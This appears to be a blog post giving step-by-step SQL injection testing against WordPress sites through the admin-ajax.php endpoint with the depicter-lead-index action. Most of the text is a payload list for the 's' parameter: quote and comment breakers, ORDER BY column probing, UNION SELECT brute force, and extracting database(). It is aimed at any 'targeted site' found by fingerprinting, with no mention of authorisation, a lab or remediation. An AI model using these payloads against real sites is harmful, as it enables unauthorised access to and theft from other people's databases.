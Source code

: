 ```yaml
---
title: WordPress Ajax Admin SQL Injection
description: Steps to Reproduce a bug
date: 2025-10-21 12:00:00
categories: [Bugs, Steps to Reproduce]
tags: [wordpress,wp,sqli,sql,injection]
render_with_liquid: false
media_subpath: /images/2025-10-21-WP-Ajax-Admin-SQL-Injection
---
```


## Steps to Reproduce a SQL Injection but on a Wordpress Ajax Admin.

- Load Targeted Site’s URL in **CyberFox**
- Check the source page and find if there is any WordPress Link for example `wp-content` or use `wappalyzer` to confirm the website is a WordPress Site.
Add `/wp-admin/admin-ajax.php?s=10&prepage=20&page=1&orderBy=source_id&dataEnd&dataStart&order=DESC&sources&action=depicter-lead-index` at the end of the URL and you will see something like `{"hasMore":false,"page":1,"perpage":10,"totalPages":1,"totalHits":null,"hits":[],"commonFields":[]}`

### SQLi Testing

**Parameter `?s=10` is the injection point.**

- First try with a `'` single quotes.
- Then `?s=10' -- -`
- Then `?s=10%23`
- Then `?s=10\`
- Then `?s=10\’`
- Then `?s=10'\`
- Then `?s=10"`
- Try `?s=10')`
- Try `?s=10")`
- Try `?s=10))`
- Try `?s=10)))`

After try all of those if you don’t see any error then try to bind order by with the payload.
- Try `?s=10 order by 20` and decrease it.
- Try `?s=10 order by 20 --` and decrease it.
- Try `?s=10 order by 20%23` and decrease it.
- Try `?s=10' order by 20-- -` and decrease it.
- Try `?s=10\ order by 20-- -` and decrease it.
- Try `?s=10\' order by 20-- -` and decrease it.

After all of those if you don’t see any error then try union brute force.
- Try `?s=10+Union+All+Select+1,2,3,4,5,6,7,8,9..20` and decrease it.
- Try `?s=10+Union+All+Select+1,2,3,4,5,6,7,8,9..20--` and decrease it.
- Try `?s=10' Union+All+Select+1,2,3,4,5,6,7,8,9..20-- -` and decrease it.
- Try `?s=10) Union+All+Select+1,2,3,4,5,6,7,8,9..20--` and decrease it.
- Try `?s=10') Union+All+Select+1,2,3,4,5,6,7,8,9..20-- -` and decrease it.

After that see which number is reflected on the webpage for example `4` is reflected on the web page, replace the 4 with a string to confirming `"Unknown"` also you can check for `database()` .

> Complete ✅
{: .prompt-tip}